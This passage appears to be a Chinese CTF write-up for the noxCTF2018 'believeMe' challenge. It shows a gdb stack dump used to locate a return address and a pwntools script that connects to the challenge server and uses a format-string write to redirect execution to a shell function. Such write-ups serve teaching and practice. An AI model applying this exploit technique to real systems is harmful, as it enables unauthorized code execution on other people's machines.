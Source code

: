 当时就卡在这里没绕出去，经过队友提醒能不能改return地址，才发现思路走偏了

我们gdb把断点下在printf调试一下，先查看下堆栈

```bash
gdb-peda$ stack 30
0000| 0xffffcf1c --> 0x80487d8 (<main+129>:	add    esp,0x10)
0004| 0xffffcf20 --> 0xffffcf44 ("aaaa%21$x")
0008| 0xffffcf24 --> 0x804890c --> 0xa ('\n')
0012| 0xffffcf28 --> 0xf7fb45a0 --> 0xfbad2288
0016| 0xffffcf2c --> 0x8f17
0020| 0xffffcf30 --> 0xffffffff
0024| 0xffffcf34 --> 0x2f ('/')
0028| 0xffffcf38 --> 0xf7e0edc8 --> 0x2b76 ('v+')
0032| 0xffffcf3c --> 0xffffd024 --> 0xffffd201 ("/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe")
0036| 0xffffcf40 --> 0x8000
0040| 0xffffcf44 ("aaaa%21$x")
0044| 0xffffcf48 ("%21$x")
0048| 0xffffcf4c --> 0xf7000078
0052| 0xffffcf50 --> 0x1
0056| 0xffffcf54 --> 0x0
0060| 0xffffcf58 --> 0xf7e30a50 (<__new_exitfn+16>:	add    ebx,0x1835b0)
0064| 0xffffcf5c --> 0x804885b (<__libc_csu_init+75>:	add    edi,0x1)
0068| 0xffffcf60 --> 0x1
0072| 0xffffcf64 --> 0xffffd024 --> 0xffffd201 ("/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe")
0076| 0xffffcf68 --> 0xffffd02c --> 0xffffd239 ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
0080| 0xffffcf6c --> 0xed1acd00
0084| 0xffffcf70 --> 0xf7fb43dc --> 0xf7fb51e0 --> 0x0
0088| 0xffffcf74 --> 0xffffcf90 --> 0x1
0092| 0xffffcf78 --> 0x0
0096| 0xffffcf7c --> 0xf7e1a637 (<__libc_start_main+247>:	add    esp,0x10)
--More--(25/30)
0100| 0xffffcf80 --> 0xf7fb4000 --> 0x1b1db0
0104| 0xffffcf84 --> 0xf7fb4000 --> 0x1b1db0
0108| 0xffffcf88 --> 0x0
0112| 0xffffcf8c --> 0xf7e1a637 (<__libc_start_main+247>:	add    esp,0x10)
0116| 0xffffcf90 --> 0x1
```

我们可以看到在偏移112处return地址为0xFFFFCF8C，我们找到了一个与它偏移相近的并且能被泄露出来的地址，因为题目说了(No ASLR) ，所以return的地址是不会变化，我们可以先连上一次得到return地址构造payload来getflag

(这里有一个挺坑的地方就是你在本地复现时终端运行得到地址和用pwntools得到的地址可能不一样，这块我还是不懂是什么原理，希望知道的师傅能讲一下学习一波)

EXP
```python
from pwn import*
context(os='linux',arch='i386')#,log_level='debug')
#n = process('./believeMe')
n = remote('18.223.228.52',13337)

shell_addr = 0x804867b
#ret_addr = 0xffffd030 - 0x4
ret_addr = 0xffffdd30 - 0x4
payload = fmtstr_payload(9,{ret_addr:shell_addr},write_size='short')
n.recvuntil('But......... how ????')
#n.sendline('%21$x')
n.sendline(payload)
n.interactive()
```

